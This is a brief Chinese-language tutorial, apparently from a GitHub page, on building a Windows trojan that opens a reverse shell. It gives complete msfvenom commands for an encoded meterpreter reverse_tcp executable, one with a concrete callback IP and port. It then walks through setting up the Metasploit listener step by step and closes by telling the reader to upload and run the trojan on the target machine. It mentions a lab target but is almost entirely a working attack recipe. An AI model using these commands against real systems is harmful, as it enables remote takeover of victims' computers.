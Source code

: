 生成木马反弹 shell（Windows）

## 一、环境准备

1. MSF-Metasploit Framework
2. 一台 windiows 靶机

## 二、开始生成木马

1. 使用 msfvenom 生成木马
2. 终端内输入: msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控 IP} LPORT={监控端口} -e x86/shikata_ga_nai -f exe -o new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38 LPORT=4567 -e x86/shikata_ga_nai -f exe -o shell.exe -i 5

## 三、配置监控

1. 启动 msf 终端内输入：msfconsole 启动 msf
2. 载入监控模块 msf 中输入： use exploit/multi/handler
3. 加载 payload msf 终端中输入：set payload windows/meterpreter/reverse_tcp
4. 配置 payload msf 终端中输入：show options
5. 配置 payload 监控 IP msf 终端中输入： set lhost {监控 IP}
6. 配置 payload 监控端口 msf 终端中输入：set lport {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）
7. 检查 payload 配置 msf 终端中输入：show options
8. ![](1642501934250.png)
9. 执行监控 msf 终端中输入： run

## 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![](1642501969373.png)

